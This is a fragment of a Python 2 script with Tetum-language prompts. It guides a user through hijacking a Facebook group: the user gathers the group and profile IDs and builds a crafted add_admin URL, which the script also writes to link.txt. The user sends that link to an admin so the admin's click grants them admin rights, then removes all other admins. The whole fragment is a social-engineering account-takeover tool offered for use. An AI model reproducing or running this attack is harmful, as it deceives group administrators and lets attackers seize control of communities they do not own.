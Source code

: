   print "%sGood Bye %s:)%s" % (W, Y, N)


elif bahasa.strip() in "03 3".split():

  print " %s[%s Tetum%s ]%s" % (R, W, R, N)

  print

  tahap1 = raw_input("%s1%s)%s Primeiro, buka grupo iha%s facebook%s neebe ita boot atu%s hack%s...%s[%sEnter%s]%s" % (Y, C, W, B, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap2 = raw_input("%s2%s)%s Depois klik url grupo nian no kopia 15 digit kode grupo. Exemplo kode grupo %sADM%s (%s 589101351254979%s )%s...%s[%sEnter%s]%s" % (Y, C, W, R, C, B, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap3 = raw_input("%s3%s)%s Agora tama ba ita boot nia profil no buka 15 digit kode profil ita boot nian. Exemplo%s hau nian %s(%s 100004136748473 %s)%s...%s[%sEnter%s]%s" % (Y, C, W, R, C, B, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap4 = raw_input("%s4%s)%s Kuando susar ba ita boot atu buka kode 15 digit nee. Koko loke husi browser neebe prepara tia ona husi telfoni...%s[%sEnter%s]%s" % (Y, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap5 = raw_input("%s5%s)%s Depois ita boot hetan ona kode grupo nian no ita boot nian kode profile. Mai ita komesa tama sessaun %sgabung kode%s...%s[%sEnter%s]%s" % (Y, C, W, R, W, C, Y, C, N))

  grup = raw_input(" %s(%sa%s)%s Kode Grupo nian%s >>>%s " % (W, C, W, C, R, Y))

  ita = raw_input(" %s(%sb%s)%s Kode Ita boot nian%s >>>%s " % (W, C, W, C, R, Y))

  print " %s(%s*%s)%s Rezultado%s >>> %shttps://m.facebook.com/group/add_admin/?group_id=%s&user_id=%s&added&_rdrChange%s" % (C, Y, C, W, R, B, grup, ita, N)

  file.write("https://m.facebook.com/group/add_admin/?group_id=%s&user_id=%s&added&_rdrChange" % (grup, ita))

  print "%s--------------------%s" % (R, N)

  tahap6 = raw_input("%s6%s)%s Agora kopia link rezultado neebe ita gabung no send ba %sadmin%s. Kuando susar ba ita boot atu kopia link nee, hau simpan tia ona link nee iha file *link.txt*. Entaun ita boot hela loke file link.txt no kopia link nee no send ba %sadmin%s...%s[%sEnter%s]%s" % (Y, C, W, R, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap7 = raw_input("%s7%s)%s Ita boot hela hein too link nee %sadmin%s klik...%s[%sEnter%s]%s" % (Y, C, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap8 = raw_input("%s8%s)%s Kuando ita boot hetan notifikasaun neebe dehan katak ita boot sai ona %sadmin%s, ita boot tenki lalais tebe %sadmin%s hotu iha grupo antes %sadmin%s seluk tebe uluk ita boot...%s[%sEnter%s]%s" % (Y, C, W, R, W, R, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)
